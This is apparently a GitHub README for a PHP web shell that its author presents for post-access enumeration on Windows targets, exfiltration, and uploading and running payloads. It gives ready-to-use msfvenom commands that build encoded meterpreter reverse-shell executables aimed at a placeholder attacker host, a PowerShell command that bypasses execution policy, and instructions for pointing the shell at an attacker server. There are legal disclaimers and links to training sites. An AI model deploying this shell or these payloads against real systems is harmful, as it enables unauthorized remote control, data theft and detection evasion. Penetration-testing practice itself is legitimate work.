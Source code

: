[![Actively Maintained](https://img.shields.io/badge/Maintenance%20Level-Actively%20Maintained-green.svg)](https://gist.github.com/cheerfulstoic/d107229326a01ff0f333a1d3476e068d) [![Version-2.0.8](https://img.shields.io/badge/Version-2.0.8-green)](https://img.shields.io/badge/Version-2.0.8-green) [![License GNU/GPL2.0](https://img.shields.io/badge/License-GNU/GPL2.0-blue)](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/LICENSE) [![Language PHP](https://img.shields.io/badge/Language-PHP-red)](https://www.php.net/)

# The Not-So Simple PHP Command Shell 🕵🔎 ️
### Windows Version Screenshot
![Windows Version Screenshot](/img/nsscmdshell.png)
### Linux Version Screenshot
![Linux Version Screenshot](/img/linux-nsscmdshell.png)
## Foreword:
> Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. The following websites provide training resources and practice scenarios and are excellent resources for learning such skills:

* https://www.hackthebox.eu/
* https://tryhackme.com/

Automates or simplifies many on target functions. Designed for windows targets. See it in action at https://kdgwebsolutions.com/assets/img/videos/proof-of-concept-for-learning-management-system-exploits.mp4. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:

venom.exe : 
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e shikata_ga_nai -f exe -o venom.exe`
```
windows x64 venom.exe :
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACKBOXPORT) -e x64/xor_dynamic -i 10 -f exe -o venom64.exe
```
If you would prefer to use a payload generator, please give mine a try https://github.com/kaotickj/K-Sploit
![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif)

## Automates or simplifies many on target enumeration functions. Including:

* Simple system commands
* File upload/download options
* simple user manipulations (on compatible targets with sufficient privileges)
* One click user info/ user permissions info
* One click systeminfo
* One Click processes list
* One click file cleanup removes all files uploaded with this tool

## How to use it

First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:

`$attackip = "10.0.2.6";`

`$attackport = "8000";`

Now get "nsscmdshell.php" onto the target < - DISCLAIMER (in a manner consistent with applicable laws - and within scope of a written contract where required) - >.

Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png)

###### The upload and download options are self explanatory, but just to avoid any confusion:

If using the select field, choose your file and click "upload". Files linked in the select field options need to be present at the web root at the ip address and port in lines 10 and 11 of nsscmdshell.php.<sup>1</sup>

If using the open file dialog option, only files present at the ip address and port specified can be uploaded.

For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.

Example usage: run jaws-enum.ps1 - output to jaws.txt `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt`, then download the output file to your attack machine for later close examination.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png)

The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png)

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?
 Two possible causes:
1. You didn't set the variables, `$attackip` and `$attackport` to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.
2. The files are not available on the defined server or port, or there is no server running on the defined port. Fix: `python3 -m http.server XXXX` in a directory containing the files you're attempting to upload.

### Footnotes:
<sup>1</sup> I generally cd into my "windowstools" folder and start a simple http server:
```sh
cd windowstools
python3 -m http.server 8000
```
![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png)
![Hack The Box](http://www.hackthebox.eu/badge/image/476578)  ![Try Hack Me](https://tryhackme-badges.s3.amazonaws.com/kaotickj.png)
